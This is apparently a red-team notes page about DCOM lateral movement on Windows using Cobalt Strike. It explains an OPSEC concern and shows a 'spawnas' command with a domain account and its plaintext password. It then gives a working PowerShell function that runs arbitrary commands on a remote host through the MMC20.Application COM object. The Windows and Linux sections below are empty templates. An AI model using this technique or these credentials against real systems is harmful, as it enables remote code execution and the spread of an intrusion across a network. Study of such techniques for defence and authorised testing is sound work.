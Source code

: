 ### Technical Overview
COM (Component Object Model) objects are objects that are "exposed" on the operating system, much like an API.

These Objects allow other software to interact with itself and can be found in excess on any modern Windows operating system.
- They still have their uses, but the well documented COM objects that can be used for lateral movement are pretty easily spotted nowadays, of course your mileage can vary from environment to environment.
###### OPSEC
DCOM lateral movement has been one of the better lateral movement techniques for years, however as they became more popular and were starting to get more attention by bloggers and open source tooling, detection rates skyrocketed.
# C2 - Cobalt Strike
## Enumeration 
DCOM lateral movement is not built into Cobalt Strike. Furthermore, DCOM does not like token impersonation. As a result you will need a C2 channel as the user you wish to laterally move with.

Please spawn a new Beacon using the following command (if your listener is called something other than HTTPS-SHORT, please replace with the name of your listener (can be tab completed)) 

```markdown
spawnas draconem\Giulio.Stanion d8PEZ#$UM6Vs!h5j HTTPS
```
![[Pasted image 20240412013329.png]]
 A new beacon is going to be spawned as Giulio, please switch over to this beacon for the next commands of this lateral movement technique. 
## Exploitation 

In order to lateraly move over DCOM, the easiest way would be to use PowerShell, we have the following Script available 
```powershell
function Invoke-MMC20
{
[CmdletBinding()]
    Param (
        [Parameter(Mandatory=$True)]
        [string]$Target,
        [Parameter(Mandatory=$True)]
        [string] $Command
    )
    echo "executing $Command on $Target"
    $a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application",$Target))
    $a.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,$Command,"")

}
```

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```
## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```
## Exploitation 

```markdown
```
